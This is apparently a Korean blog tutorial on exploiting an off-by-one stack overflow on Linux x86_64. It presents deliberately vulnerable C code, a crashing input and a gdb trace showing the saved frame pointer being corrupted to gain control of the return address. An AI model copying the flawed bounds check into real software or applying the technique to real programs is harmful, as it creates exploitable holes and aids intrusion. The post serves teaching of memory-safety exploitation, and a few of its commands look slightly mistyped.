 ```yaml
---
layout: post
title: "Linux x86_64 Shellcode 7"
date: 2014-11-10 22:28:09 +0900
comments: true
categories: 
---
```


#### Off-by-one

이제, size check 가 들어가는데 체크를 잘못해서, Off-by-one 에러가 날 경우를 정리해본다.

다음과 같은 체크가 들어간다고 한다.

    if (strlen(av[1])>512){
        printf("Buffer overflow attempt!\n");
        exit(1);
    }
    strcpy(buf,av[1]);

512 bytes 로 payload 를 맞추면, saved 된 `%rbp` 의 1 byte 를 0 으로 overwrite 할 수 있다.
saved 된 `%rbp` 는 사실 윗단계 depth 함수에서 사용하는 frame 포인터이다. 

function epilogue 에서 `leave` 를 해주면 `mov %rbp,%rsp` `pop %rbp` 를 해주면서 corrupt 된 rbp 값이 `%rbp` 에 세팅되고 return 하여, 이제 잘못된 `%rbp` 를 가지고 프로그램이 돌아간다.

`%rbp` 의 최하위 byte 가 0 가 되버려서 최대 255 bytes 만큼 lower address 로 떨어지게 된다.

    void b(char *s)
    {
        char buf[512];

        if (strlen(s) > 512) {
            printf("Buffer overflow attempt!\n");
            exit(1);
        }
        strcpy(buf,s); // 여기서 b() 스택프레임의 saved %rbp 가 깨지고
        // mov %rbp,%rsp; pop %rbp 에서 깨진 값이 %rbp 로 들어가고
    }
    void a(char *s)
    {
        b(s);
        // mov %rbp,%rsp; 에서 깨진 값이 %rsp 로 들어서 %rsp 가 망가지고
        // pop %rbp 를 거쳐서 
        // ret 에서 잘못된 return address 로 튀게 된다.
    }
    void main(int ac,char **av)
    {
        char buf[128];
        strcpy(buf,"dummy\x00");
        if (ac>1) a(av[1]);
    }

이제 컴파일해서 실행해보자.

    $ gcc -fno-stack-protector -zexecstack -f off off.c
    $ ./off $(printf "0513x" 0)
    Buffer overflow attempt!
    $ ./off $(printf "0512x" 0)
    Segmentation fault (core dumped)

에를 들어 `0x00007fffffffdc60` 가 saved ebp 였는데, 이게 buf[512] 랑 붙어있다가, 가장 가깝게 붙어 있던 0x60 이 0x00 으로 깨져버리면서, 이제 saved ebp 가 `0x00007fffffffdc00` 가 되버렸다.

a() 가 수행되고 나서 돌아갈 어드레스는 `0x00007fffffffdc60` 의 바로 위에 저장되어있었는데, 이제 a() 가 수행되고 나서 `0x00007fffffffdc00` 의 바로 위에 저장된 값을 return address 로 해서 튀게 된다.

a() 가 실행되고 나서 main() 으로 돌아가야하는데, 이제 엉뚱한대로 튀게 되는것. 

정리하면, `strlen(s) > 512-1` 이 아니라 `strlen(s) > 512` 라고 쓰는 바람에

* 로컬변수에 대해 작업하다가 1 byte 삑사리가 났다.
* 상단의 saved %rbp 가 깨진다. (상위함수 프레임 포인터)
* leaveq 에서, `pop %rbp` 때문에 이제 %rbp 레지스터 값이 깨진다.
* retq 로 상위함수로 돌아온다.
* 이제 남은 코드들이 깨진 %rbp 로 로컬 변수를 참조하게 된다.
* 이제 이 함수도 return 하게 되는데...
* leaveq 에서 `mov %rbp,%rsp` 때문에 이제 %rsp 레지스터 값이 깨진다.
* leaveq 에서 `pop %rbp` 를 해서 `%rsp += 8` 이 된다.
* retq 에서 %rsp 가 point 하는 메모리값으로 %rip 를 세팅하니 이번에는 %rip 가 깨진다.
* %rsp 가 최대 255 bytes 만큼 아래로 떨어지니, 우리가 컨트롤할 수 있는 변수 영역으로 %rsp 가 떨어질 가능성이 있다.
* 이렇게 되면 %rip 를 컨트롤 할 수 있을 가능성이 있다.

디스어셈블해보자.

    (gdb) disas
    Dump of assembler code for function a:
    0x4005fd <+0>:  push    %rbp            // 이전 frame 을 세이브하고
    0x4005fe <+1>:  mov     %rsp,%rbp       // 새로운 frame 을 셋업하고`
    0x400601 <+4>:  sub     $0x10,%rsp
    0x400605 <+8>:  mov     %rdi,-0x8(%rbp)
    0x400609 <+12>: mov     -0x8(%rbp),%rax
    0x40060d <+16>: mov     %rax,%rdi
    0x400610 <+19>: callq   0x400584 <b>
    0x400615 <+24>: leaveq
    0x400616 <+25>: retq

    (gdb) break b
    (gdb) run
    (gdb) break *0x4005f6 // strcpy() 에 브레이크를 건다.
    Breakpoint 2 at 0x4005f6: file off.c, line 8.
    (gdb) cont
    Continuing.

    Breakpoint 2, 0x4005f6 in b at off.c:8
    (gdb) p $rbp
    $1 = (void *) 0x7fffffffdd70
    (gdb) x $rbp // %rbp 가 가리키는 메모리에는 상위 스택프레임 %rbp 가 저장되어있다.
    0x7fffffffdd70: 0xffffdd90 // 상위 스택프레임 %rbp 는 0x7fffffffdd90
    0x7fffffffdd74: 0x00007fff
    (gdb) step // strcpy() 수행
    9       }
    (gdb) x $rbp 
    0x7fffffffdd70: 0xffffdd00 // 이제 0x7fffffffdd00 으로 깨졌다. 90 bytes 가 날아갔다. 다운.
    (gdb)
    0x7fffffffdd74: 0x00007fff
    (gdb) x 0x7fffffffdd08 // %rbp + 8 에 return address 가 저장되니까
    0x7fffffffdd08: 0x30303030 // 0x30 이 나오는 것으로 봐서 우리가 %rip 를 컨트롤 할 수 있다.
    (gdb) 
    0x7fffffffdd0c: 0x30303030
    (gdb)

return address 에 0x30 이 나오는 것으로 봐서 우리가 %rip 를 컨트롤 할 수 있다.

#### 결론

* 스택에 저장된 return address 까지가 아니더라도, saved %rbp 의 일부만 corrupt 시킬 수 있어도, %rip 를 컨트롤 할 수 있는 경우가 있다. 정도?

#### 참고

* [The poisoned NUL byte](http://seclists.org/bugtraq/1998/Oct/109)
* [Off-by-One exploitation tutorial](http://www.intelligentexploit.com/articles/Linux-Off-By-One-Vulnerabilities.pdf)
* [Third Generation Exploitation by Halvar Flake](https://www.google.co.kr/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#newwindow=1&q=halvar+flake+Third+generation+exploitation)
* [YouTube: Black Hat USA 2002 - Third Generation Exploitation](http://www.youtube.com/watch?v=ZLQ4x2CQ8fk)
* [Modeling the Exploitation and Mitigation of Memory Safety Vulnerabilities, Breakpoint 2012, Matt Miller, MSEC]()
* [Memory Corruption Exploitation in Internet Explorer, Moti Joseph]()
